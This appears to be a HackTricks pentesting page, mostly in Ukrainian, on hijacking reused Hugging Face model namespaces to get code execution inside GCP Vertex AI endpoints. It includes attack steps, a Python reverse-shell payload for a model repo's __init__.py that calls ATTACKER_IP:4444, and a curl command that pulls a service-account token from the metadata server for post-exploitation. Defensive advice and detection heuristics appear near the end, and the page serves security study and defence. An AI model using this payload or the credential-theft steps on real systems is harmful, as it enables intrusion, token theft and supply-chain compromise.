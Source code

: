 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Vertex AI Model Garden дозволяє безпосередньо розгортати багато Hugging Face (HF) моделей.
- HF model identifiers are Author/ModelName. Якщо автор/організація на HF видаляється, те саме ім'я автора може бути перереєстроване будь-ким. Атакуючі можуть створити repo з тим самим ModelName за старим шляхом.
- Pipelines, SDKs, або cloud catalogs, які підтягують за ім'ям (без pinning/integrity), підтягнуть repo під контролем атакуючого. Коли модель буде розгорнута, loader code з цього repo може виконатися всередині контейнера endpoint Vertex AI, надаючи RCE з дозволами endpoint.

Two common takeover cases on HF:
- Ownership deletion: Старий шлях повертає 404, поки хтось не перереєструє автора і не опублікує той самий ModelName.
- Ownership transfer: HF повертає 307 редиректи зі старого Author/ModelName на нового автора. Якщо старий автор пізніше видаляється і його ім'я перереєструє атакуючий, ланцюжок редиректів буде порушений і repo атакуючого обслуговуватиме старий шлях.

## Identifying Reusable Namespaces (HF)

- Old author deleted: сторінка автора повертає 404; шлях до моделі може повертати 404 до takeover.
- Transferred models: старий шлях моделі повертає 307 на нового власника, поки старий автор існує. Якщо старий автор пізніше видаляється і його ім'я перереєструють, legacy path буде вказувати на repo атакуючого.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Повний ланцюг атаки проти Vertex AI

1) Виявити повторно використовувані неймспейси моделей, які Model Garden позначає як deployable:
- Знайти HF models у Vertex AI Model Garden, які все ще відображаються як “verified deployable”.
- Перевірити на HF, чи оригінальний author видалений, або чи модель була передана і старий author пізніше видалений.

2) Повторно зареєструвати видаленого author на HF та відтворити той самий ModelName.

3) Опублікувати шкідливий repo. Включити код, який виконується під час model load. Приклади, які зазвичай виконуються під час HF model load:
- Побічні ефекти в __init__.py репозиторію
- Custom modeling_*.py або processing код, на який посилається config/auto_map
- Шляхи коду, які потребують trust_remote_code=True у Transformers pipelines

4) Розгортання у Vertex AI для спадкового Author/ModelName тепер підтягує репозиторій зловмисника. Лоадер виконується всередині контейнера Vertex AI endpoint.

5) Payload встановлює доступ із середовища endpoint (RCE) з правами endpoint’а.

Приклад фрагмента payload, що виконується при import (тільки для демонстрації):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Примітки
- Реальні лоадери можуть відрізнятися. Багато інтеграцій Vertex AI HF клонують та імпортують модулі з репозиторіїв, на які посилається конфігурація моделі (наприклад, auto_map), що може призвести до виконання коду. Для деяких випадків необхідно trust_remote_code=True.
- The endpoint typically runs in a dedicated container with limited scope, but it is a valid initial foothold for data access and lateral movement in GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Перелічити змінні оточення та метадані для виявлення облікових даних/токенів
- Отримати доступ до приєднаного сховища або змонтованих артефактів моделі
- Взаємодіяти з Google APIs через service account identity (Document AI, Storage, Pub/Sub, etc.)
- Забезпечити персистенцію в артефакті моделі, якщо платформа повторно витягує репозиторій

Enumerate instance metadata if accessible (container dependent):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Рекомендації з безпеки для користувачів Vertex AI

- Закріплюйте моделі за commit у HF loaders, щоб запобігти прихованій заміні:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Реплікуйте перевірені HF models у довірений внутрішній artifact store/registry і розгортайте звідти.
- Постійно скануйте codebases і configs на наявність захардкоджених Author/ModelName, які були deleted/transferred; оновлюйте на нові namespaces або закріплюйте за конкретним commit.
- У Model Garden перевіряйте походження моделі та існування автора перед розгортанням.

## Евристики розпізнавання (HTTP)

- Видалений автор: author page 404; legacy model path 404 до takeover.
- Передана модель: legacy path 307 на нового автора, поки старий автор існує; якщо старого автора пізніше видалять і повторно зареєструють, legacy path починає віддавати attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Перехресні посилання

- Див. ширшу методологію та нотатки щодо ланцюга постачання:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Посилання

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
